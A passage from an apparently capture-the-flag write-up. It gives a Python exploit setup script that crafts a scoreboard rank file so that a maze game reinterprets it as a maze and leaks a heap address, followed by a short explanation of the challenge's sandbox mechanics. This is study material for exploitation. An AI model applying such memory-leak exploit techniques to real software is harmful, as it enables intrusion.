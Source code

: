 ```python

def menusync():
    global _menucount
    for i in range(_menucount):
        s.recvuntil('8. Exit\r\n')
    _menucount = 0

def register(name):
    menu(1)
    s.sendline(name)

def load(x):
    menu(3)
    s.sendline(str(x))

def remove(x):
    menu(5)
    s.sendline(str(x))

def scoreboard():
    menusync()
    menu(6)
    return s.recvuntil('\r\nMenu\r\n\r\n', drop=True)

# maze type 0, w=h=0 (from score)
register(b'A' * 0x7f)

menu(2) # create
s.sendline('1') # classic
s.sendline('c') # custom
s.sendline('3') # w = h = 3
s.sendline('3')
s.sendline('y') # save
s.sendline('leak') # save

# insert our name into the scoreboard
# rank file: [num_ranks=80] [name_length=7f] [name=414141...41] [score=0000000000000000] ...
# will be interpreted as the maze [creator_name_length=80] [creator_name=7f41414141...41] [maze_type=00] [width=00] [height=00]
for i in range(0x80):
    if i % 0x20 == 0:
        menusync()
    menu(4) # play
    # move right once
    s.sendline('d')

s.interactive()
```

On the actual challenge server, each connection can either create a new sandbox (which lasts for 10 minutes), obtaining a sandbox UID, or enter an existing UID to use the files from an existing sandbox. So, this setup script simply saves the appropriate `.maze`/`.rank` files and the UID for subsequent exploits to use. To actually leak the heap address, it suffices to load the `leak.rank` file as a maze and observe the scoreboard, which prints out the creator name and a heap address.
